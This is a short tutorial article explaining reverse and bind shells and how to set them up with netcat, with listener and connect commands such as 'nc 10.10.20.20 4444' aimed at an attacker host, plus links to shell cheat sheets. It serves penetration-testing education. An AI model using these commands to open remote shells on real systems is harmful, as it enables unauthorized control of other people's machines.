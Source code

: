 ```yaml
---
title: Reverse shells and bind shells
description: An introduction to reverse shells and bind shells using netcat.
date: 2023-01-20
tags:
  - cybersecurity
---
```


Reverse shells and bind shells are types of network connections used in hacking and penetration testing. 

A reverse shell is when the attacker makes a target computer connect back their own computer, where they can then control the target's shell. To do this, the attacker uses special tools to set up a "listener" on the attacking computer, which waits for the target to connect.

In contrast, a bind shell is when a attacker makes the target computer run a "listener" directly, that allows the attacker to connect and control it.

A reverse or bind shell is usually established after a target computer has been exploited. In this article we will not be discussing how to exploit a target, but we will be covering how to establish a reverse or bind shell using a tool called netcat.

## Netcat

Netcat is a command-line tool used for network communication. It can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. 

One of netcat's main advantages is its wide availability. Netcat it is preinstalled on many Linux distributions, and it can be also installed on Windows.

When establishing a **reverse shell**, we need to start a listener on the attacking computer, and then connect to it from the target computer.

We can set up the listener on the attacking computer with `nc -lvnp <PORT>`, e.g. `nc -lvnp 4444`.

The `-lvnp 4444` options are:

- `l` = listen mode
- `v` = verbose mode
- `n` = numeric only (IP address), don't use DNS 
- `p 4444` = listen on port `4444`

Now, we need connect to the listener from the target computer. To do this, we use `nc <ATTACKER-IP> <PORT>`, e.g. `nc 10.10.20.20 4444` if the attacker's IP is `10.10.20.20` and the attacker is listening on port `4444`. 

Once the connection is established, we will be able to send shell commands to the target's shell from the attacker's computer! 🎉

When establishing a **bind shell**, we need to start a listener on the target computer, and then connect to it from the attacking computer.

Set up the the listener on the target computer with `nc -lvnp <PORT>`, and then connect to the listener from the attacking computer with `nc <TARGET-IP> <PORT>`.

When setting up reverse and binding shells, keep in mind:

- The port on the listener can be blocked by firewalls, so be sure to find a port that is open.
- Administrative permissions (i.e. `sudo`) are needed when listening on a port below `1024`.

## Closing thoughts

This article shows only one way to make reverse and bind shells using netcat, but there are many other tools and methods to do this. Here are two great resources for finding more examples:

- Reverse Shell Cheat Sheet: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Bind Shell Cheat Sheet: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Bind Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md)
